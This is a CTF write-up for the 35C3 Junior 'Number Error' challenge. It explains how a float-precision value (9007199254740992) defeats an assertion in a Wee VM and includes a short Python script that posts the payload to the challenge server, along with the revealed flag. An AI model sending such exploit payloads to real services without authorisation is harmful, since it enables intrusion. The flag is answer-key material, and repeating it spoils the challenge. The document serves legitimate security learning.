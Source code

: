 # 35C3 Junior CTF – Number Error

* **Category:** Misc
* **Points:** variable

## Challenge

> The function assert_number(num: number) is merely a debug function for our Wee VM (WeeEm?). It proves additions always work. Just imagine the things that could go wrong if it wouldn't!
>
> http://35.207.189.79/
> 
> Difficulty estimate: Easy - Medium
>
> ===============================================
>
> Good coders should learn one new language every year.
>
> InfoSec folks are even used to learn one new language for every new problem they face (YMMV).
>
> If you have not picked up a new challenge in 2018, you're in for a treat.
>
> We took the new and upcoming Wee programming language from paperbots.io. Big shout-out to Mario Zechner (@badlogicgames) at this point.
>
> Some cool Projects can be created in Wee, like: this, this and that.
>
> Since we already know Java, though, we ported the server (Server.java and Paperbots.java) to Python (WIP) and constantly add awesome functionality. Get the new open-sourced server at /pyserver/server.py.
>
> Anything unrelated to the new server is left unchanged from commit dd059961cbc2b551f81afce6a6177fcf61133292 at badlogics paperbot github (mirrored up to this commit here).
>
> We even added new features to this better server, like server-side Wee evaluation!
>
> To make server-side Wee the language of the future, we already implemented awesome runtime functions. To make sure our VM is 100% safe and secure, there are also assertion functions in server-side Wee that you don't have to be concerned about.

## Solution

The *Wee* interpreter source code can be found here: `http://35.207.189.79/weelang/weeterpreter.ts`.

The endpoint that can be used to run *Wee* code is the following.

```
http://35.207.189.79/wee/run
```

The assertion that must be exploited is the following.

```Typescript
externals.addFunction(
   "assert_number",
   [{name: "num", type: compiler.NumberType}], compiler.StringType,
   false,
   (num: number) => !isFinite(num) || isNaN(num) || num !== num + 1
       ? "NUMBERS WORK" : flags.NUMBER_ERROR
)
```

The parameter must be a finite number, that is not `NaN` and that is equal to the next one number. The behavior can be [the one that happens](https://stackoverflow.com/questions/307179/what-is-javascripts-highest-integer-value-that-a-number-can-go-to-without-losin) using numbers greater than *MAX_INT*.

For *TypeScript* it is: `9007199254740991`. Using the next one number (i.e. `9007199254740992`) will produce the searched effect.

```
alert(assert_number(9007199254740992))
```

The following Python script can be used to send the payload.

```Python
import requests
import json

url = "http://35.207.189.79/wee/run"
data_structure = """{{ "code": {} }}"""
data_content = """alert(assert_number(9007199254740992))"""

data_content_to_send = json.dumps(data_content)
data_to_send = data_structure.format(data_content_to_send)
print "[*] Payload: '{}'.".format(data_to_send)
response = requests.post(url, data=data_to_send)
print "[*] Response: '{}'.".format(response.text)
```

The flag is the following.

```
35C3_THE_AMOUNT_OF_INPRECISE_EXCEL_SH33TS
```